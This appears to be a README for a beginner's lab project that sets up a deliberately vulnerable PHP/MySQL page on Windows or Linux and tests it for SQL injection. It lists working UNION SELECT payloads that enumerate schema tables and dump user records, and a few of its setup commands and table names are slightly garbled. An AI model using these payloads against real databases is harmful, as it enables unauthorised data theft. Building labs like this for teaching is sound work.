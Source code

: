 <b> SQL Injection Tester </b>


Steps to Implement this program:- ( For Windows users)

1. Git-Clone these 2 files (project.html andd projectdb.php).

2. Download xampp server or wampp server (or any other server where you want to execute html and php file).

3. Start mysql and apache services in server.

4. Create mysql database in php-my-admin with name "project",further in this database create a table with name "users" 
   then you need to insert some random records in the table.

5. Run that file (project.html) through server.

6. Test the basic functionality of this program by typing "srno"(serial number) in text field, 
   if the output is showing the details of that "srno" then the basic functionality  is working correctly.

7. Now, let's test sql injection:-
  
  - Type " a' " in text field, if output is  showing a sql error then this page is sql injected 
    and can be hackable.
  - Now type some queries given below:-

   1. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables;#
   
   

   2. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables 
      where table_name like 'user%';#

   3. a' and 1=0 union select concat_WS(':', name), concat_WS(':', srno, city), name, city from user;#


Steps to Implement this program:- ( For Linux users):-

Setting up LAMP(Linux, Apache, Mysql, PHP):-

1- If you have a Linux OS then you have already done the first phase of LAMP which is linux.

2- Further, you have to install :-
  -Apache
  Command - apt-get install apache2
  -Mysql
  Command - apt-get install mysql -server
  -pHp
  Command - apt-get install php7.2 libapache-mod-php7.2php-mysql
  -pHp-my-admin
  Command - apt-get install phpmyadmin

3- Now ,you have to follow some mysql commands:-
  -Create database:-
    Create database project;
  -Select the created database:-
    use project;
  -Create table in database:-
    create table users(srno int(5) primary key, name  varchar(30), city varchar(30));

4- Now git-clone those 2 pages(project.html and projectdb.php) and copy them at following path:-
   var/www/html

5- Now run project.html in browser (localhost/project.html) 

6-  Now, let's test sql injection:-
  
  - Type " a' " in text field, if output is  showing a sql error then this page is sql injected 
    and can be hackable.
  - Now type some queries given below:-

   1. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables;#

   2. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables 
      where table_name like 'user%';#

   3. a' and 1=0 union select concat_WS(':', name), concat_WS(':', srno, city), name, city from user;#
    
